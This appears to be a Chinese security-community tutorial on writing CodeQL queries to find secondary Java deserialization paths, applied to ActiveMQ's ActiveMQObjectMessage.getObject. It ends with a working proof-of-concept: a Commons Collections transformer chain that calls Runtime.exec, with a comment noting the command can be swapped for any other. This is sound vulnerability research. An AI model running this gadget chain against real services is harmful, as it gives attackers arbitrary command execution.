


# 利用链寻找利器 CodeQL：如何精准定位二次反序列化漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/17471  
> **文章ID**: 17471

---

# 利用链寻找利器 CodeQL：如何精准定位二次反序列化漏洞

## 简单介绍

CodeQL 是一个由 GitHub 开发的安全工具，用于静态代码分析。它能够检查多种编程语言的代码，以发现潜在的安全漏洞、缺陷和违反编码规范的问题。CodeQL 使用一个名为 CodeQL Workbench 的图形界面来管理代码分析，并且可以通过命令行工具 `codeql` 来执行。

CodeQL 的主要特点包括：

1. **支持多种编程语言**：CodeQL 支持多种编程语言，包括 Java、C/C++、Go、Python、Ruby、Node.js、PHP、Rust 等。
2. **自动代码分析**：CodeQL 能够自动分析代码库，无需人工干预，从而发现潜在的安全问题。
3. **自定义规则**：用户可以创建自定义规则来识别特定的问题，并且可以与其他开发者共享这些规则。
4. **与 GitHub 集成**：CodeQL 可以直接集成到 GitHub 中，允许开发者在其代码仓库中运行代码分析。

## 二次反序列化查找

### 利用场景

首先先给出这次利用的场景，现在已知我可以调用getter方法，然后需要查找二次反序列化的调用链

### step1寻找getter方法

#### 分析

我的思路就是先寻找所有的getter方法，该如何筛选出是一个getter方法呢？各位学过fatsjson的应该知道fastjson的赛选getter方法的逻辑，我们来回顾一下

```
if (methodName.startsWith("get") && Character.isUpperCase(methodName.charAt(3))) {
    if (method.getParameterTypes().length != 0) {
        continue;
    }

    if (Collection.class.isAssignableFrom(method.getReturnType()) //
            || Map.class.isAssignableFrom(method.getReturnType()) //
            || AtomicBoolean.class == method.getReturnType() //
            || AtomicInteger.class == method.getReturnType() //
            || AtomicLong.class == method.getReturnType() //
            ) {
        String propertyName;

        JSONField annotation = method.getAnnotation(JSONField.class);
        if (annotation != null && annotation.deserialize()) {
            continue;
        }

        if (annotation != null && annotation.name().length() > 0) {
            propertyName = annotation.name();
        } else {
            propertyName = Character.toLowerCase(methodName.charAt(3)) + methodName.substring(4);

            Field field = TypeUtils.getField(clazz, propertyName, declaredFields);
            if (field != null) {
                JSONField fieldAnnotation = field.getAnnotation(JSONField.class);
                if (fieldAnnotation != null && !fieldAnnotation.deserialize()) {
                    continue;
                }
            }
        }

        FieldInfo fieldInfo = getField(fieldList, propertyName);
        if (fieldInfo != null) {
            continue;
        }

        if (propertyNamingStrategy != null) {
            propertyName = propertyNamingStrategy.translate(propertyName);
        }

        add(fieldList, new FieldInfo(propertyName, method, null, clazz, type, 0, 0, 0, annotation, null, null));
    }
}
```

首先是以getter开头，然后第四个字母必须是大写的，然后后面还有对参数的限定，并且希望getter是一个public方法

那在codeql语言中应该如何编写呢？

#### 编写语句

```
class GetMethod extends Method{
  GetMethod(){
   this.getName().indexOf("get") = 0 and
      this.getName().length() > 3 and
      this.isPublic() and
      this.fromSource() and
      this.hasNoParameters()
  }
}
```

首先就是Method类

它有一个谓词方法

isPublic：Holds if this element has a `public` modifier or is implicitly public.

getName： Gets the name of this element.

hasNoParameters: Holds if this callable does not have any formal parameters.

fromSource：Holds if this element pertains to a source file.

总的来说代码实现了一个这样的效果

1. `this.getName().indexOf("get") = 0`:

* 此条件用于检查方法名称是否以 "get" 开头。这通常用于获取方法（Getter）命名约定，符合 Java Bean 的标准，以便于访问对象的属性。

2. `this.getName().length() > 3`:

* 这一条件确保方法名称的长度大于 3，意味着方法名称不仅仅是 "get"。例如，合法的方法名称如 "getAge" 或 "getName" 都符合这一条件。

3. `this.isPublic()`:

* 这行代码检查该方法是否是公共的。公共方法可以被任何其他类访问，这通常是获取属性的方法所需的访问级别。

4. `this.fromSource()`:

* 此函数可能用来确定该方法是否为源代码中的方法而不是动态生成的方法。这是一个条件检查，以确保我们只关注源代码中定义的方法。

5. `this.hasNoParameters()`:

* 最后，这个条件检查该方法是否没有参数。Getter 方法通常不需要参数，因为它们是为了返回对象的属性值而设的。

我们看效果如何

可以看到有1000多个结果，数量很多



随便点几个，看看是不是符合我们的要求

```
public String getClientIDPrefix() {
    return this.clientIDPrefix;
  }
```

```
public long getOptimizedAckScheduledAckInterval() {
    return this.optimizedAckScheduledAckInterval;
  }
```

确实都是public，然后都是getter方法，符合要求

### 二次反序列化逻辑

#### 分析

这里我如何判断这个getter方法是不是能够二次反序列化呢？

首先得有readobject方法吧

比如我们找一个以前出现过二次反序列化的

SignedObject的getObject方法

```
public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
```

RMIConnector的findRMIServerJRMP方法

```
private RMIServer findRMIServerJRMP(String base64, Map<String, ?> env, boolean isIiop)
        throws IOException {
        // could forbid "iiop:" URL here -- but do we need to?
        final byte[] serialized;
        try {
            serialized = base64ToByteArray(base64);//把我们的base64数据转化为字节码
        } catch (IllegalArgumentException e) {
            throw new MalformedURLException("Bad BASE64 encoding: " +
                    e.getMessage());
        }
        final ByteArrayInputStream bin = new ByteArrayInputStream(serialized);为我们的序列化字节码创建输入流    
    final ClassLoader loader = EnvHelp.resolveClientClassLoader(env);
    final ObjectInputStream oin =
            (loader == null) ?
                new ObjectInputStream(bin) ://把输入流存到对象中
                new ObjectInputStreamWithLoader(bin, loader);
    final Object stub;
    try {
        stub = oin.readObject();反序列化我们的输入流
    } catch (ClassNotFoundException e) {
        throw new MalformedURLException("Class not found: " + e);
    }
    return (RMIServer)stub;
}
```

都是有readobject的

#### 编写codeql语句

```
import java


from Method method, MethodAccess access

where 

 access.getMethod().getName() = "readObject" and

 access.getEnclosingCallable() = method

select method, access
```

`MethodAccess` 类表示对方法的调用（即“方法访问”）

每当代码中调用某个方法时，都会生成一个 `MethodAccess` 实例

`getMethod()`

* 返回表示该 `MethodAccess` 对应的被调用方法 (`Method` 类型)。
* 例如，`access.getMethod()` 返回了当前方法调用的目标方法。

`getEnclosingCallable()`

* 返回包含此方法调用的父函数或方法。换句话说，它返回包含此调用的函数或方法的定义。
* 例如，在一个方法内部调用另一个方法时，它会返回外部的方法。

所以我的语句意思就是

用于查找在某个方法中调用 `readObject` 方法的情况

我们看下效果



可以看到是有一个getobject的

```
public Serializable getObject() throws JMSException {
    if (this.object == null && getContent() != null)
      try {
        ByteSequence content = getContent();
        InputStream is = new ByteArrayInputStream(content);
        if (isCompressed())
          is = new InflaterInputStream(is); 
        DataInputStream dataIn = new DataInputStream(is);
        ClassLoadingAwareObjectInputStream objIn = new ClassLoadingAwareObjectInputStream(dataIn);
        objIn.setTrustedPackages(this.trustedPackages);
        objIn.setTrustAllPackages(this.trustAllPackages);
        try {
          this.object = (Serializable)objIn.readObject();
        } catch (ClassNotFoundException ce) {
          throw JMSExceptionSupport.create("Failed to build body from content. Serializable class not available to broker. Reason: " + ce, ce);
        } finally {
          dataIn.close();
        } 
      } catch (IOException e) {
        throw JMSExceptionSupport.create("Failed to build body from bytes. Reason: " + e, e);
      }  
    return this.object;
  }
  
```

正是我们的getter方法，而且内部有二次反序列化的逻辑

## POC构造

如果这里getContent是可以控制的，那么就可以实现二次反序列化

跟进getContent方法

是在父类Message中

```
public ByteSequence getContent() {
    return content;
}
```

本质上是一个ByteSequence对象

```
protected ByteSequence content;
```

我们看ByteSequence如何构造

```
public ByteSequence(byte data[]) {
    this.data = data;
    this.offset = 0;
    this.length = data.length;
}
```

接受一个byte对象，而且是public的

我们先简单构造一下，看看能否二次反序列化调用

```
package org.example;

import org.apache.activemq.command.ActiveMQObjectMessage;
import org.apache.activemq.util.ByteSequence;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cs {
    public static void main(String[] args) throws Exception {
        // 创建一个暂时的Transformer数组，在后续payload生成前不会执行真正的命令
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};

        // 定义真正的命令执行Transformer链
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new String[]{"calc.exe"}), // 这里的命令是“calc.exe”，可以改为任何需要执行的命令
                new ConstantTransformer(1) // 隐藏错误信息
        };

        // 创建一个ChainedTransformer对象，并使用暂时的transformers
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        // 使用LazyMap和TiedMapEntry创建payload结构
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain); // LazyMap调用时会触发Transformer
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, "key");

        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "value"); // put方法会触发TiedMapEntry的hashcode，从而调用LazyMap的get方法

        // 将不再需要的键值对移除，防止后续不必要的执行
        outerMap.remove("key");

        // 通过反射将真正的transformers替换进ChainedTransformer
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        // 序列化expMap对象
        byte[] bytes = serialize(expMap);

        // 创建一个ByteSequence对象，可能会在后续传输或处理序列化数据时使用
        ByteSequence byteSequence = new ByteSequence(bytes);
        ActiveMQObjectMessage activeMQObjectMessage=new ActiveMQObjectMessage();
        activeMQObjectMessage.setContent(byteSequence);
        activeMQObjectMessage.getObject();

    }

    // 将对象序列化为字节数组的方法
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        objectOutputStream.flush();
        objectOutputStream.close();
        return byteArrayOutputStream.toByteArray();
    }
}
```
